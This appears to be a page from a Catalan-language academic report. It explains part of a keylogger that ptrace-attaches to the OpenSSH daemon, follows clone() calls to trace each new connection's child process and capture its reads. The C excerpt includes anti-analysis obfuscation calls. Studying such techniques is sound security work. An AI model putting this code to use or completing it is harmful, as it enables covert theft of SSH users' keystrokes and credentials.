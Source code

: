 \begin{figure}[h!]
\begin{Verbatim}[commandchars=@\[\]]
ptrace(PTRACE_SYSCALL, pid, @PYaX[NULL], @PYaX[NULL]);
exitPid @PYbe[=] wait(@PYbe[&]status);
antidebug_obfuscate_analysis(@PYag[3]);
@PYay[if] (WIFSTOPPED(status)) {
    @PYay[if] (WSTOPSIG(status) @PYbe[=]@PYbe[=] SIGCHLD) {
        ptrace(PTRACE_CONT, pid, @PYag[0], SIGCHLD);
        kill(pid, SIGSTOP);
    } @PYay[else] 
        @PYay[if] (WSTOPSIG(status) @PYbe[!]@PYbe[=] SIGTRAP @PYbe[&]@PYbe[&]  WSTOPSIG(status) @PYbe[!]@PYbe[=] SIGSTOP) {
        ptrace(PTRACE_CONT, pid, @PYag[0], WSTOPSIG(status));
        debug(@PYaB["]@PYaB[Acabant procés pare %d (%d)]@PYao[\n]@PYaB["], pid, WSTOPSIG(status));
        @PYay[break];
    }
    @PYay[else] {
        orig_eax @PYbe[=] ptrace(PTRACE_PEEKUSER, pid, @PYag[4] @PYbe[*] ORIG_EAX, @PYaX[NULL]);
        antidebug_obfuscate_analysis(@PYag[4]);
        @PYay[switch] (orig_eax) {
            @PYay[case] __NR_clone:
                @PYay[if](insyscall @PYbe[=]@PYbe[=] @PYag[0]) {
                    debug(@PYaB["]@PYaB[fork]@PYao[\n]@PYaB["]);
                    insyscall @PYbe[=] @PYag[1];
                } @PYay[else] {
                    insyscall @PYbe[=] @PYag[0];
                    eax @PYbe[=] ptrace(PTRACE_PEEKUSER, pid, @PYag[4] @PYbe[*] EAX, @PYaX[NULL]);
                    @PYay[if](@PYbe[!]fork()) {
                        lookForReads(eax);
                    }
\end{Verbatim}
    \caption{keylogger.c::main()}
    \label{fig:keylogger_main}
\end{figure}

En la figura \ref{fig:keylogger_main} podem veure com un cop ja estem attachats al procés principal del 
Openssh, anem seguin les diferents crides a sistema per trobar en aquest cas un clone(). En el moment
en que es retorni la crida clone(), capturem el valor del registre eax que correspon al pid del procés
fill o 0 en cas de ser el propi fill. Quan en el pare obtenim el pid del fill acabat de crear, saltem a la 
funció lookForReads() tot passant-li el nou pid a seguir. En aquesta funció, es crearà un nou procés del 
nostre keylogger, que seguirà exclusivament aquest nou procés que acaba de crear l'Openssh. En aquesta nova
connexió, ja serà on buscarem les dades que ens interessen. \\

Podem veure en la mateixa figura, que segons el signal que faci aturar el nostre procés, ens interessarà
que aquest arribi al procés que estem debugant, o fins i tot, farà que deixem de debugar-lo ja que entendrem
que es vol aturar el servei. \\


